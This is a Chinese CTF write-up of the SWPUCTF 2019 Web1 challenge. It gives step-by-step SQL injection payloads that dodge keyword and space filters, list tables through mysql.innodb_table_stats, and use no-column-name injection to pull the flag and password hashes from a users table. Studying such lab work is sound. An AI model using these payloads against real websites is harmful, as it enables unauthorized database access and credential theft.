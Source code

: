 # SWPUCTF 2019

## Web

### Web1

注册账号并登陆后能够 申请发布广告 ，在广告申请中的广告名输入

```
-1' order by 1#
```

回显 `标题含有敏感词汇` ，通过测试可以发现 `or` 、`and` 、 `空格` 、 `join`

先判断列数，通过逐步判断直到

```
-1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

可以得到回显如下图

<figure><img src=".gitbook/assets/Web1-1.png" alt=""><figcaption></figcaption></figure>

可以得出字段有 22 列，并且 2 和 3 是可以进行注入攻击的。

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

可以得出数据库名为 `Web1` ，但是由于 `or` 被过滤了，所以也需要绕过 `information_schema` 库。

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/
sys.schema_table_statistics_with_buffer/**/where/**/table_schema=Web1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `Table 'sys.schema_table_statistics_with_buffer' doesn't exist` ，那就得换另一种方法力，通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到所有表名 `ads, users` ，尝试无列名注入。

> https://zhuanlan.zhihu.com/p/98206699

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `The used SELECT statements have a different number of columns` ，直到如下 Payload

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `1,1,2,3` ，那就继续查看第二列，构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.2)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `2,flag,admin,1` ，看到 flag 了，那就继续康康第三列，构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.3)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显如下

```
3,flag{81dda3bd-2651-4353-8d11-53c5c3842ec5},53e217ad4c721eb9565cf25a5ec3b66e,c4ca4238a0b923820dcc509a6f75849b
```

就得到 flag 了。
